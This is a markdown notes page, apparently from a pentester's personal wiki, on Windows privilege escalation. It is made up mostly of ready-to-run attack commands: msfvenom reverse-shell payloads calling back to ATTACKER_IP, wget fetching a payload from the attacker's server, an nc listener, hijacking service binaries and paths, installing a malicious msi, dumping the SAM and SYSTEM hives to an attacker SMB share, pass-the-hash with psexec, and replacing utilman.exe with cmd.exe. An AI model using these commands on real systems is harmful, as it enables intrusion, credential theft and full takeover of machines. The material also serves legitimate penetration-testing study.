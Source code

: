 Notes about privilege escalation on [[Windows]].

## Windows Privileges

Run `whois /priv` to view current user's privileges.

A full list of privileges can be found [here](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants).

A list of privilege exploits can be found [here](https://github.com/gtworek/Priv2Admin).

## Scheduled Tasks

[[Windows/Enumeration#Scheduled Tasks]]

Check scheduled tasks. Can you overwrite the executable being ran?

## Services

[[Windows/Enumeration#Windows Services]]

Check services. Can you overwrite the service executable?

Generate reverse shell payload on attacking computer:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=ATTACKER_PORT -f exe-service -o payload.exe
```

Run server on attacking computer (defaults to port `8000`):

```bash
python3 -m http.server
```

Download payload on target computer:

```powershell
wget http://ATTACKER_IP:8000/payload.exe -O payload.exe
```

Replace server executable with malicious payload:

```powershell
move payload.exe C:\target\location\service-name.exe
```

Grant permission to executable:

```powershell
icacls C:\target\location\service-name.exe /grant Everyone:F
```

Set up reverse listener on attacking computer:

```bash
nc -lvnp ATTACKER_PORT
```

Wait for service to run on target computer, or try to force restart if you have privileges:

```powershell
sc.exe stop <service-name>
sc.exe start <service-name>
```

Note: Use `sc.exe` in PowerShell or `sc` in Command Prompt.

## Unquoted service paths

[[Windows/Enumeration#Windows Services]]

Run `sc.exe qc <servicename`.

Check if the `BINARY_PATH_NAME` is missing quotes and spaces in path/filename, i.e. `C:\path\to\file name.exe` instead of `"C:\path\to\file name.exe"`. 

If the path has spaces and it is unquoted, you can exploit this. In this example, the service till try to find `file.exe` before it tries to find `file name.exe`, therefore you can put a malicious `file.exe` in the same folder.

## Insecure service permissions

Download [AccessChk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk) to check service permissions. Run `accesschk64.exe -qlc <servicename>`. Check for `SERVICE_ALL_ACCESS` permission, which means you can rewrite service configurations.

Get a malicious executable on the server.

Reconfigure the service to run the executable file:

```powershell
sc.exe config <servicename> binPath= "C:\path\to\malicious\file.exe" obj= LocalSystem
```

Wait for service to run on target computer, or try to force restart if you have privileges:

```powershell
sc.exe stop <servicename>
sc.exe start <service-name>
```

Note: Use `sc.exe` in PowerShell or `sc` in Command Prompt.

## AlwaysInstallElevated

[[Windows/Enumeration#AlwaysInstallElevated]]

Check if `AlwaysInstallElevated` is enabled.

Generate a malicious `.msi` on attacking computer, e.g. using `msvenom`:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=ATTACKER_PORT -f msi -o malicious.msi
```

Transfer the malicious `.msi`.

Execute on the target computer:

```
msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

## SeBackupPrivilege / SeRestorePrivilege

[[Windows/Enumeration#SeBackupPrivilege / SeRestorePrivilege]]

Run `whoami /priv` and check for `SeBackupPrivilege` and `SeRestorePrivilege`.

On the target computer, backup SAM and System hashes:

```
reg save hklm\system C:\Users\User\system.hive
reg save hklm\sam C:\Users\User\sam.hive
```

On the attacking computer, use [impacket](https://www.kali.org/tools/impacket/) to set up a SAM server.

```bash
# Create a new directory
mkdir share

# Start the SAM server using same credentials as the target Windows user
python /opt/impacket/examples/smbserver.py -smb2support -username User -password password123 public share
```

On the target computer, copy the files to the attacking computer:

```
copy C:\Users\User\sam.hive \\ATTACKER_IP\public\
copy C:\Users\User\system.hive \\ATTACKER_IP\public\
```

On the attacking computer, use impacket to retrieve hashes:

```bash
python /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
```

Check for Administrator's hash, i.e.

```
Administrator:500:HASH_PART_1:HASH_PART_2:::
```

Use Pass-the-Hash attack on Administrator's hashed password:

```shell
python /opt/impacket/examples/psexec.py -hashes HASH_PART_1:HASH_PART_2 administrator@TARGET_IP
```


## SeTakeOwnershipPrivilege

[[Windows/Enumeration#SeTakeOwnershipPrivilege]]

Run `whoami /priv` and check for `SeTakeOwnershipPrivilege`.

Take ownership of a application running with `SYSTEM` privileges, e.g. `utilman.exe` (built in accessibility application).

Take ownership of `utilman.exe`:

```
takeown /f C:\Windows\System32\Utilman.exe
```

Give the current user full permissions:

```
icacls C:\Windows\System32\Utilman.exe /grant User:F
```

Replace `utilman.exe` with `cmd.exe`:

```
cd C:\Windows\System32\
copy cmd.exe utilman.exe
```

Trigger `utilman.exe` (`cmd.exe`):

1. Start menu -> User profile -> Lock
2. On the lock screen, click 'Ease of Access'.
3. A command prompt should open with `SYSTEM` privileges.

## Related

- [[Windows]]
- [[Windows/Enumeration]]